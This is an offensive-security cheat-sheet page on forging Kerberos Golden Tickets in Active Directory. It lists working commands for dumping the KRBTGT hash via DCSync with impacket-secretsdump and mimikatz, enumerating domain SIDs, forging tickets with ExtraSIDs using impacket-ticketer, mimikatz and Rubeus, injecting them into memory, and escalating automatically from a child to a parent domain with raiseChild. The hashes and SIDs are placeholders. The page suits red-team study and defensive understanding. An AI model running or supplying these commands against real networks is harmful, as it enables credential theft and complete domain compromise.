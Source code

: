 ```yaml
---
icon: ticket-simple
---
```


# Golden Ticket

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**Golden Ticket**</mark> is a <mark style="color:purple;">**forged Kerberos TGT**</mark> that an attacker can create after obtaining the **KRBTGT** account hash from Active Directory, allowing them to impersonate any user, including domain administrators, and gain unrestricted access to services across the domain without the need for Active Directory to validate the user’s existence or group membership. The ticket contains a **Privilege Attribute Certificate (PAC)** that defines the user’s identity and privileges, which Windows trusts without cross-checking with the domain controller.&#x20;

<mark style="color:red;">**ExtraSIDs**</mark> [**\[LINK\]**](https://venator17.gitbook.io/bibliotheque/active-directory/movement/trust-abuse/extrasids) can be included in the PAC to simulate inherited privileges, such as previous group memberships, enabling privilege escalation even for accounts that no longer have those roles.

### <mark style="color:blue;">Requirements</mark>

1. <mark style="color:orange;">**KRBTGT hash**</mark> for the child domain _(In example we are doing DCSync because for forging we need to have child domain fully compromised)_
2. <mark style="color:orange;">**SID**</mark> for the child domain
3. <mark style="color:orange;">**Name of a Target User**</mark> in the child domain _(does not need to exist! We can make a fake name, like `"hacker"`)_
4. <mark style="color:orange;">**FQDN**</mark> of the child domain

## <mark style="color:yellow;">LINUX</mark>

### <mark style="color:blue;">Preparing</mark>

#### **1. Obtaining the KRBTGT Account's NT Hash**

```shell-session
impacket-secretsdump fia.militech.local/sreed@13.13.13.13 -just-dc-user FIA/krbtgt
```

#### 2. Bruteforce SID's in Domain

> First it enumerates Domain SID via **LSARPC**, then bruteforces last **(RID)** part

> With same way you can grep groups you're interested in, or find common SID's in this site [**\[LINK\]**](https://adsecurity.org/?p=1001)

```powershell
impacket-lookupsid fia.militech.local/sreed@13.13.13.13 | grep "Domain SID"
```

### <mark style="color:blue;">Forging</mark>

```bash
impacket-ticketer -nthash ffffffffffffffffffff -domain FIA.INLANEFREIGHT.LOCAL -domain-sid S-1-22-3334444-55555-666666 -extra-sid /sids:S-1-22-3334444-55555-666666-7331 hacker
```

#### Add Ticket to Memory

```bash
export KRB5CCNAME=hacker.ccache 
```

### <mark style="color:yellow;">All-In-One</mark>

**Impacket** also has the tool <mark style="color:green;">**`raiseChild`**</mark>, which will automate escalating from child to parent domain. We need to specify the target domain controller and credentials for an administrative user in the child domain; the script will do the rest.

```bash
impacket-raiseChild -target-exec 13.13.13.13 FIA.MILITECH.LOCAL/sreed
```

## <mark style="color:yellow;">WINDOWS</mark>

### <mark style="color:blue;">Preparing</mark>

#### **1. Obtaining the KRBTGT Account's NT Hash**

```shell-session
mimikatz # lsadump::dcsync /user:FIA\krbtgt
```

#### 2. Get SID of Child Domain

<mark style="color:green;">**`PowerView`**</mark>

```powershell
PS C:\> Get-DomainSID
```

### <mark style="color:blue;">Forging</mark>

> Option <mark style="color:green;">**`/sids`**</mark> is for **ExtraSIDs** attack, explained here [**\[LINK\]**](https://venator17.gitbook.io/bibliotheque/active-directory/movement/trust-abuse/extrasids)

#### <mark style="color:green;">`Mimikatz`</mark>

```shell-session
mimikatz # kerberos::golden /user:hacker /domain:FIA.MILITECH.LOCAL /sid:S-1-22-3334444-55555-666666 /krbtgt:ffffffffffffffffffff /sids:S-1-22-3334444-55555-666666-7331 /ptt
```

#### <mark style="color:green;">`Rubeus`</mark>

```powershell
PS C:\> .\Rubeus.exe golden /rc4:ffffffffffffffffffff /domain:FIA.MILITECH.LOCAL /sid:S-1-22-3334444-55555-666666  /sids:S-1-22-3334444-55555-666666-7331 /user:hacker /ptt
```

#### Check Ticket in Memory

```powershell
PS C:\> klist
```

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://blog.harmj0y.net/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/" %}

{% embed url="https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden" %}

{% embed url="https://adsecurity.org/?p=1001" %}
Common SID's
{% endembed %}

{% embed url="https://venator17.gitbook.io/bibliotheque/active-directory/movement/trust-abuse/extrasids" %}
